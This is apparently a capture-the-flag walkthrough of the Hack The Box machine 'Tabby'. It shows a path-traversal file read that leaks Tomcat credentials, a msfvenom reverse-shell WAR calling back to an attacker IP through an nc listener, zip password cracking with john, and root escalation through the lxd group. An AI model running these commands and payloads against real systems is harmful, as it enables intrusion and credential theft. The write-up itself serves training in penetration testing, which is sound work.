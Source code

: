 # Tabby
```
Difficulty: Easy
Operating System: Linux
Hints: Trues
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see the machine is running ubuntu, so without further doing let's dig into port 80.
As we poke around on the site we can see that all the links are pointing to de index page except this one ```http://megahosting.htb/news.php?file=statement``` since the parameter looks a lot like it is doing a file inclusion, let's try to exploit this and try to leverage an LFI.  
We can open the request in burp and try different patterns:  
```
GET /news.php?file=../news.php HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can see the code of the actual news.php file. Since the code is not executed, it means that we cannot turn the LFI into RCE.  
```
HTTP/1.1 200 OK
Date: Thu, 21 Apr 2022 07:35:18 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 123
Connection: close
Content-Type: text/html; charset=UTF-8

<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
As we can see the file is using ```fopen()```, if instead it used ```include()``` the code would have been executed instead than just being printed, and we would have had the chance to turn this LFI into RCE.  
In this case when we have include to exfiltrate php code we can use php filter function (e.g: ```php://filter/convert.base64-encode/resource=news.php```).  
Now let's try to enumerate files of tomcat, relying on [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), as we can see there, we can enumerate users by including the following file.  
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
As we can see we get the list of users that can authenticate against tomcat as admin:  
```
[... SNIP ...]
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
[... SNIP ...]
```
Now that we have credentials for tomcat let's try to leverage this attack vector in order to gain an initial foothold.

## Foothold
As we open tomcat manager page we can see the following error message:  
```
403 Access Denied

You are not authorized to view this page.

By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file.
```
However, according to [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat) we do not need to use the manager gui to upload a war, we can simply use a curl command.  
So, now, let's prepare our payload with msfvenom:  
```
root@kali Tabby ]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f war -o revshell.war                                                                                                                               
Payload size: 1091 bytes                                   
Final size of war file: 1091 bytes                         
Saved as: revshell.war
```
And use the following curl command to deploy the war file:  
```
[root@kali Tabby ]$ curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/shell2"                                                                                               
OK - Deployed application at context path [/shell2]
```
Now we can set up a listener, and as we hit port 9001 we can gain a shell as user tomcat.  
```
root@kali:~/Documents/HTB/Boxes/Tabby# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.194] 48468
tomcat@tabby:~$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## User
Now that we have an initial foothold, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice a backup file that is pretty non-standard:  
```
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip
[... SNIP ...]
```
Now, let's download the archive and see what do we have.  
As we try to open the archive, we can see that it is password-protected, so, let's try to use john to crack the password:  
```
[root@kali Tabby ]$ zip2john backup.zip > backup.hash   
[root@kali Tabby ]$ cat backup.hash                        
backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:backup.zip                                          
[root@kali Tabby ]$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash                                      
Using default input encoding: UTF-8                        
Loaded 1 password hash (PKZIP [32/64])                     
Will run 2 OpenMP threads                                  
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
admin@it         (backup.zip)                              
1g 0:00:00:01 DONE (2022-04-22 10:16) 0.8264g/s 8560Kp/s 8560Kc/s 8560KC/s adornadis..adj071007                       
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
```
And we found a password.  
If we extract the zip file we do not see anything interesting, so we can try to use the cracked password against 'ash' the only user available in this box:  
```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su - ash
Password:
ash@tabby:~/
```
And we successfully gain access.

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that user ash is part of lxd group:
```
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
OS: Linux version 5.4.0-31-generic (buildd@lgw01-amd64-059) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020
User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
Hostname: tabby
```
As we did for [shocker](https://github.com/lucabodd/htb-walkthroughs/blob/main/Shocker.md) we know that we can leverage this group to create a linux container and mount the rootfs. Ounce the machine is booted and the rootfs is mounted we will be able to write any file on the box and even drop an ssh key for root.  
LXD is Ubuntu’s system container manager. This is similar to virtual machines, but using lightweight linux containers.  
The lxd group should be considered harmful in the same way the docker group is.  
Any member of the lxd group can immediately escalate their privileges to root on the host operating system.
To Exploit this vulnerability, first of all we need to run the following commands on our local machine:
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
bash build-alpine
```
After we run this command we can transfer the ```alpine-v3.15-x86_64-20220422_1026.tar.gz``` image to the remote server, and run the following command.
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
```
We do not get any ```error: mkdir /.config: permission denied``` as did happened for [shocker](https://github.com/lucabodd/htb-walkthroughs/blob/main/Shocker.md), hence we can proceed with the exploit.  
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
lxc image list # verify that the image is loaded
lxc init alpine alpine-container -c security.privileged=true
lxc config device add alpine-container alpine-device disk source=/ path=/mnt/root recursive=true
```
finally, we can start the container and run a bash shell:
```
lxc start alpine-container
lxc exec alpine-container /bin/sh
```
However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container.  
So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.
```
ash@tabby:/dev/shm$ lxc exec alpine-container /bin/sh                                                            
~ # id                                                     
uid=0(root) gid=0(root)   
~ # cat /mnt/root/root/root.txt
309d17dcbfbe5ee7dba81f0079b10982

```
